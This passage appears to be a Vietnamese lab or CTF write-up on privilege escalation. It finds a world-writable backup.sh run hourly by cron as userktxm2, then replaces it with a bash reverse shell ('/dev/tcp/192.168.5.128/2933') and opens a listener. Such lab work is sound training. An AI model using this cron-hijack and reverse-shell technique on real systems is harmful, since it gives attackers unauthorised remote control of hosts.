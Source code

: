Ta thấy ta ai cũng có quyền chỉnh sửa file backup.sh và file này thuộc sở hữu của người dùng userktxm2. 
Nội dung file 
![alt text](image-61.png)

Script này sẽ nén toàn bộ nội dung trong thư mục /var/www/html thành file nén .tar.gz và lưu vào /var/backups/web_backup.tar.gz
Tìm kiếm file backup.sh trong các thư mục  hệ thống /etc

```bash
grep -r "backup.sh" /etc 2>/dev/null
```
![alt text](image-62.png)

Mỗi giờ thì file backup.sh sẽ được thi 1 lần với quyền của người dùng userktxm2
![alt text](image-63.png)

Ta chỉnh sửa nội dung file backup.sh  để khởi tạo reverse shell gửi kết nối về máy tấn công.
```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.5.128/2933 0>&1
```
Trên máy tấn công mở cổng lắng nghe 
![alt text](image-64.png)
